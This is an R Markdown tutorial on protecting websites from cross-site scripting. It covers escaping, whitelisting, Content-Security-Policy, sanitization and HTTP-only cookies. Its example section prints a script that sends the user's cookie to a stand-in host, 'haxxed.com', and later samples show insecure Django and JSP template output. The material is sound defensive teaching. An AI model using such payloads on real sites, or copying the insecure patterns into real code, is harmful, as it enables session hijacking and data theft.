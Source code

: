 ```yaml
---
title: '***Hack Protection***: Cross-Site Scripting'
author: "Cole Ellis"
output: html_document
---
```


```r
knitr::opts_chunk$set(echo = TRUE)
```

***Cross-site scripting (XSS)*** is one of the most common methods hackers use to attack websites. XSS vulnerabilities permit a malicious user to execute arbitrary chunks of JavaScript when other users visit your site.

## Example
On a forum page where users are permitted to type and post text -

User input:
```html
<script> alert('Your session has been hacked!') </script>
```
*This will display an alert popup on any user's screen that views the message.*

Next input:
```html
<script>window.location = 'haxxed.com?cookie=' + document.cookie</script>
```
*This hijacks the user's session and moves them to a new page listed in the `window` parameter.*

## Risks
XSS allows arbitrary execution of JavaScript code, so the damage that can be done by an attacker depends on the sensitivity of the data being handled by your site. Some of the things hackers have done by exploiting XSS:

- *Spreading worms* on social media sites. Facebook, Twitter and YouTube have all been successfully attacked in this way.
- *Session hijacking*. Malicious JavaScript may be able to send the session ID to a remote site under the hacker’s control, allowing the hacker to impersonate that user by hijacking a session in progress.
- *Identity theft*. If the user enters confidential information such as credit card numbers into a compromised website, these details can be stolen using malicious JavaScript.
- *Denial of service attacks* and website vandalism.
- *Theft of sensitive data*, like passwords.
- *Financial fraud* on banking sites.

## Protection
Web pages are made up of HTML, usually described in template files, with dynamic content woven in when the page is rendered. Stored XSS attacks make use of the improper treatment of dynamic content coming from a backend data store. The attacker abuses an editable field by inserting some JavaScript code, which is evaluated in the browser when another user visits that page.

Unless your site is a content-management system, it is rare that you want your users to author raw HTML. Instead, you should escape all dynamic content coming from a data store, so the browser knows it is to be treated as the contents of HTML tags, as opposed to raw HTML.

Escaping dynamic content generally consists of replacing significant characters with the HTML entity encoding:

| Character | Encoding |
|-----------|----------|
| " | &#34 |
| # | &#35 |
| & | &#38 |
| ' | &#39 |
| ( | &#40 |
| ) | &#41 |
| / | &#47 |
| ; | &#59 |
| < | &#60 |
| > | &#62 |

## Whitelist Values
If a particular dynamic data item can only take a handful of valid values, the best practice is to restrict the values in the data store, and have your rendering logic only permit known good values. For instance, instead of asking a user to type in their country of residence, have them select from a drop-down list.

## Content-Security Policy
Modern browsers support Content-Security Policies that allow the author of a web-page to control where JavaScript (and other resources) can be loaded and executed from. XSS attacks rely on the attacker being able to run malicious scripts on a user’s web page - either by injecting inline `<script>` tags somewhere within the `<html>` tag of a page, or by tricking the browser into loading the JavaScript from a malicious third-party domain.

By setting a content security policy in the response header, you can tell the browser to never execute inline JavaScript, and to lock down which domains can host JavaScript for a page:
```html
Content-Security-Policy: script-src 'self' https://apis.google.com
```
*By whitelisting the URIs from which scripts can be loaded, you are implicitly stating that inline JavaScript is not allowed.*

The content security policy can also be set in a <meta> tag in the <head> element of the page:
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://apis.google.com">
```

*This approach will protect your users very effectively!* However, it may take a considerable amount of discipline to make your site ready for such a header. Inline scripts tags are considered bad practice in modern web-development - mixing content and code makes web-applications difficult to maintain - but are common in older, legacy sites.

To migrate away from inline scripts incrementally, consider makings use of CSP Violation Reports. By adding a report-uri directive in your policy header, the browser will notify you of any policy violations, rather than preventing inline JavaScript from executing:
```html
Content-Security-Policy-Report-Only: script-src 'self'; report-uri http://example.com/csr-reports
```
*This will give you reassurance that there are no lingering inline scripts, before you ban them outright.*

## Sanitize HTML
Some sites have a legitimate need to store and render raw HTML, especially now that `contentEditable` has become part of the HTML5 standard. If your site stores and renders rich content, you need to use a HTML sanitization library to ensure malicious users cannot inject scripts in their HTML submissions.

## Code Samples
The code samples below illustrate good and bad practices when trying to protect against Cross-Site Scripting.

#### Python | Django
Insecure (`| safe` overrides HTML escape):
```python
**{{ contents | safe }}**
```
Secure:
```python
**{{ contents }}**
```

#### Java
Insecure (does not escape HTML):
```java
<%= contents %>

${contents}

<%
   out.println(contents);
%>

```
Secure (`c:out` safely escapes HTML):
```java
<c:out value="${contents}">
```

## HTTP-Only Cookies
A session-hijacking attack can use malicious JavaScript to steal the cookie containing the user’s session ID. There is rarely a good reason to read or manipulate cookies in client-side JavaScript, so consider marking cookies as HTTP-only, meaning that cookies will be received, stored, and sent by the browser, but cannot be modified or read by JavaScript.